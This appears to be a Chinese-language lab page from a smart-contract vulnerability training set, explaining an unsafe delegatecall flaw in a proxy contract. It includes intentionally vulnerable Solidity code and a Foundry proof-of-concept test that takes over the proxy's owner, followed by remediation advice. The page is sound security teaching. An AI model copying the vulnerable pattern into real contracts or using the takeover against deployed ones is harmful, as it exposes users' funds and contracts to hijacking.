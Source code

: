 # 不安全委托调用
[Delegatecall.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Delegatecall.sol)  
**名称：** 不安全委托调用漏洞
**描述：**  
代理合约所有者操纵漏洞是智能合约设计中的缺陷，这种缺陷允许攻击者操纵代理合约的owner，并且将其硬编码为0xdeadbeef。  
这个漏洞的产生是由于在代理合约的回退函数中使用了delegatecall。   
delegatecall允许攻击者在代理合约上下文中从委托合约调用pwn()函数，从而改变代理合约owner状态变量的值。  
这允许智能合约在运行时从不同的地址动态加载代码。  

**场景：**  
代理合约为了帮助用户调用逻辑合约而设计的
代理合约的owner被硬编码为0xdeadbeef  
你可以操纵代理合约的owner吗？  


**修复建议：**  
为了缓解代理合约所有者操纵漏洞，除非明确要求，否则不要使用delegatecall,并确保安全的使用delegatecall。  
如果delegatecall对于合约的功能是必要的，请确保验证和清理输入以避免意外情况。  


**Proxy 合约：**  
```
contract Proxy {
    address public owner = address(0xdeadbeef); // slot0
    Delegate delegate;

    constructor(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
    }

    fallback() external {
        (bool suc, ) = address(delegate).delegatecall(msg.data); // 漏洞
        require(suc, "Delegatecall failed");
    }
}
```     


**如何测试：**  

forge test --contracts src/test/Delegatecall.sol-vvvv 
```
// 测试使用delegatecall的场景的函数
function testDelegatecall() public {
    // 初始化一个新的委托合约，即“逻辑合约”。
    DelegateContract = new Delegate(); 
    // 初始化一个新的代理合约，将委托合约的地址传递给构造函数。这就是“代理合约”。
    proxy = new Proxy(address(DelegateContract)); 

    // 记录Alice的地址。
    console.log("Alice address", alice);
    // 记录代理合约的所有者。
    console.log("DelegationContract owner", proxy.owner());

    // 记录更改代理合约所有者操作的开始
    console.log("Change DelegationContract owner to Alice...");
    // 设置消息的发送者为Alice。
    vm.prank(alice);
    // 通过delegatecall 调用Delegate合约的pwn函数.这就是漏洞。
    address(proxy).call(abi.encodeWithSignature("pwn()")); 
    // Proxy.fallback()将委托调用Delegate.pwn(), 使得Alice成为代理合约的所有者。

    // 记录代理合约的新的所有者。
    console.log("DelegationContract owner", proxy.owner());
    // 记录漏洞攻击完成。
    console.log(
        "Exploit completed, proxy contract storage has been manipulated"
    );
}

// Delegate 合约, 包含了可以通过delegatecall调用的代码。
contract Delegate {
    // 合约的所有者。
    address public owner; // slot0

    // pwn 函数, 将合约的所有者设置为消息发送者。
    function pwn() public {
        owner = msg.sender;
    }
}
```  
**红框：** 攻击成功，owner已经更改
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3d7b2665-e934-4b5a-b9ec-1302656f7da8%2FUntitled.png?table=block&id=6be82235-a425-44a7-9174-c6bfb0e027ec&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
